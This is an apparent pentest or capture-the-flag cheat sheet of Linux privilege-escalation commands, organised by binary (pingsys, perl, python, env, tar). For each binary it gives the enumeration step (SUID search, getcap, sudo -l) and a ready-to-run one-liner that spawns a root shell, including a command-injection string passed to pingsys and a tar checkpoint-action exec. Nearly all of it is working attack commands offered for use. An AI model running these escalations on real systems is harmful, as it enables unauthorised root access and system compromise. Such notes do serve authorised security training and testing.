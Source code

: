 # PINGSYS
```
find / -perm /4000 -type f 2>/dev/null           
```   
If:
/usr/bin/pingsys
```
/usr/bin/pingsys '127.0.0.1;/bin/sh'
```
# PERL
https://gtfobins.github.io/gtfobins/perl/
```    
getcap -r / 2> /dev/null
```
If:
/usr/bin/perl = cap_setuid+ep
```
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
# PYTHON
https://gtfobins.github.io/gtfobins/python/#suid
```
find / -user root -perm /4000
```
If:
/usr/bin/python
```
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
# ENV
https://gtfobins.github.io/gtfobins/env/#suid
```
find / -user root -perm /4000
```
If:
/usr/bin/env
```
/usr/bin/env /bin/sh -p
```
# TAR
https://gtfobins.github.io/gtfobins/tar/
```
sudo -l
```
If:
User ??? may run the following commands on ???: 

   (root) /bin/tar
```    
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
